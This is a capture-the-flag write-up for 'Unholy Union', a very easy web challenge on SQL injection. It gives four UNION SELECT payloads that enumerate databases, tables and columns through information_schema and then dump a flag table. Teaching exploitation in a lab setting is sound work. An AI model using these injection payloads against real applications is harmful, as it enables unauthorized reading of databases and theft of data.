


    <font size="6">Unholy Union</font>
  20<sup>th</sup> Oct 2024 / Document No. D24.xxx.xxx

  Prepared By: Xclow3n

  Challenge Author: Xclow3n

  Difficulty: <font color=green>Very Easy</font>

  Classification: Official


# [Synopsis](#synopsis)

Unholy Union is a very easy web challenge designed to help players understand and exploit SQL Injection.

# Skills Required
- Basic knowledge of SQL

# Skills Learned
- SQL Injection

# [Solution](#Solution)

Visiting the web app displays the following page:


We can perform a search, which updates the SQL query, and clicking the search button shows the results in both the web app and the debug window.


Let's add a quote to see if we can break out of the SQL query and inject our own commands.


We get a syntax error, which means we can inject SQL. Let's retrieve all the existing databases using the following query:
```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.schemata) -- -
```


Running this query shows a database named `halloween_inventory` in addition to the default ones.

Next, let's fetch all the tables in this database with the following query:

```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA='halloween_inventory') -- -
```


We see a table named `flag`. Now, let's find the columns in this table to retrieve data. Use this query:

```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name='flag') -- -
```


Now that we know the column and table names, let's fetch the flag using this query:

```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(flag) FROM flag) -- -
```



This completes the challenge! :)
